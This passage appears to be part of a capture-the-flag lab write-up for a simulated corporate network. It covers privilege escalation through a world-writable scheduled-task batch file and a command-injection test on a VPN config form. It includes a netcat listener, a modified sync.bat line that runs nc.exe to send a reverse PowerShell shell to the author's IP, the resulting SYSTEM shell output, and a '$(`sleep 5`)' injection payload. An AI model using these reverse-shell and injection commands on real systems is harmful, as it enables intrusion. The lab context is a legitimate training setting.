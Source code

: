  	icacls "C:\SYNC\sync.bat"
	C:\SYNC\sync.bat Everyone:(F)
                 BUILTIN\Users:(F)
                 NT AUTHORITY\SYSTEM:(I)(F)
                 BUILTIN\Administrators:(I)(F)
                 BUILTIN\Users:(I)(RX)
So we can modify the file, eventually to get a recverse shell on our attacker machine using netcat. So on the attacker machine lunch a listener:

	nc -lvp 1234

 On wrk2 modify sync.bat as follows:

 	copy C:\Windows\Temp \\s3.corp.thereserve.loc\backups\ & C:\users\laura.wood\Downloads\nc.exe 12.100.1.8 1234 -e powershell
The IP address refers to my VPN IP on tun0 interface. Then you can wait 5 minutes when the task will be executed or lunch it manually using the command:

	SCHTASKS /Run /? /TN FULLSYNC

 Then we get a reverse powershell as system

 	listening on [any] 1234 ...
	10.200.89.22: inverse host lookup failed: Unknown host
	connect to [12.100.1.8] from (UNKNOWN) [10.200.89.22] 63061
	Windows PowerShell 
	Copyright (C) Microsoft Corporation. All rights reserved.
	PS C:\Windows\system32> whoami
		whoami
		nt authority\system


### Command injection VPN Server OVPN file generator form
The form to generate the OVPN file is vulnerable to command injection: https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt
You can test it submitting the following value:

    $(`sleep 5`)

### Error submitting flags

	Warning: Permanently added '10.200.89.101' (ECDSA) to the list of known hosts.
	THMSetup@10.200.89.101: Permission denied (publickey,keyboard-interactive).

If you get this type of error, as indicated in the Discord channell, the problem can happen is if someone tampered with the admin SSH authorized_keys files on the host and deleted the existing keys. A network reset should resolve the issue, so keep not of the steps you performed and the found credentials:

### References
### Hardening AD
- https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/active-directory-hardening-series-part-4-enforcing-aes-for/ba-p/4114965
- https://trustmarque.com/resources/a-guide-to-defending-against-kerberoasting-and-what-you-can-do/
- https://www.sentinelone.com/cybersecurity-101/what-are-pass-the-hash-pth-pass-the-ticket-ptt/
